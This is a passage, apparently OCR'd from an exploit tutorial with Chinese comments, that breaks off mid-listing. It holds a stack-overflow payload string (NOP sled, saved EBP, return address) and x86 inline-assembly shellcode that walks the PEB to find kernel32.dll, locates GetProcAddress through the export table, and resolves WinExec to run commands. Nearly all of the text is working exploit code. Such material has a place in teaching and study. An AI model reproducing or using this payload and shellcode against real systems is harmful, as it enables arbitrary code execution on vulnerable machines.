 ```
90909090909090909090909090909090+EBP+5D744473+9090909090909090909090909090909000000000
```

shellcode：

```c
_declspec(naked) void test02()
{
	__asm{
        //查找kernel32.dll基址
        xor     ecx, ecx
        mov     eax, fs:[ecx + 0x30]        // EAX = PEB
        mov     eax, [eax + 0xc]            // EAX = PEB->Ldr
        mov     esi, [eax + 0x14]           // ESI = PEB->Ldr.InMemOrder
        lodsd                               // EAX = Second module
        xchg    eax, esi                    // EAX = ESI, ESI = EAX
        lodsd                               // EAX = Third(kernel32)
        mov     ebx, [eax + 0x10]           // EBX = Base address
        push    ebx
        
        //找到kernel32.dll的导出表
        mov     edx, [ebx + 0x3c]           // EDX = DOS->e_lfanew
        add     edx, ebx                    // EDX = PE Header
        mov     edx, [edx + 0x78]           // EDX = Offset export table
        add     edx, ebx                    // EDX = Export table
        mov     esi, [edx + 0x20]           // ESI = Offset names table
        add     esi, ebx                    // ESI = Names table
        xor     ecx, ecx                    // EXC = 0

    Get_Function:
        inc     ecx                                 // Increment the ordinal
        lodsd                                       // Get name offset
        add     eax, ebx                            // Get function name
        cmp     dword ptr[eax], 0x50746547          // GetP
        jnz     Get_Function
        cmp     dword ptr[eax + 0x4], 0x41636f72    // rocA
        jnz     Get_Function
        cmp     dword ptr[eax + 0x8], 0x65726464    // ddre
        jnz     Get_Function

        //找到GetProcAddress函数地址
        mov     esi, [edx + 0x24]                   // ESI = Offset ordinals
        add     esi, ebx                            // ESI = Ordinals table
        mov     cx, [esi + ecx * 2]                 // CX = Number of function
        dec     ecx             
        mov     esi, [edx + 0x1c]                   // ESI = Offset address table
        add     esi, ebx                            // ESI = Address table
        mov     edx, [esi + ecx * 4]                // EDX = Pointer(offset)
        add     edx, ebx                            // EDX = GetProcAddress

        //获取WinExec()地址 
        pop     ebx                                 //kernel32.dll
        xor     ecx, ecx                   
        push    ecx
        mov     ecx, 0x61636578                     // xeca
        push    ecx
        sub     dword ptr[esp + 0x3], 0x61          // Remove "a"
        push    0x456e6957                          // WinE
        push    esp                                 //"WinExec"
        push    ebx
        call    edx

        //执行WinExec()
        xor     ecx, ecx
```